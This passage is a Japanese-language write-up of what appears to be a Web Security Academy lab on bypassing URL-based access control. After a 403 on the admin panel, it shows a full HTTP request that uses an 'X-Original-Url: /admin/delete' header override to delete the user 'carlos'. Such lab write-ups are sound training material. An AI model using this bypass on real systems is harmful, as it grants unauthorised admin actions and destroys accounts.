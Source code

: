 `Admin panel`にアクセスしても勿論無理です。

```text
HTTP/2 403 Forbidden
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 15

"Access denied"
```

このとき、`X-Original-Url: admin`を追加してあげることでアクセス可能なことを確認しました。

![](./images/README_231110_175038.png)

あとはやるだけです。

```bash
GET /?username=carlos HTTP/2
Host: 0abc006e03f1f8368799f92c00670037.web-security-academy.net
Cookie: session=rA69GzmB6NAjyNxR6Nnrg1hRCtXOhXcl
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.123 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abc006e03f1f8368799f92c00670037.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Priority: u=0, i
X-Original-Url: /admin/delete
```
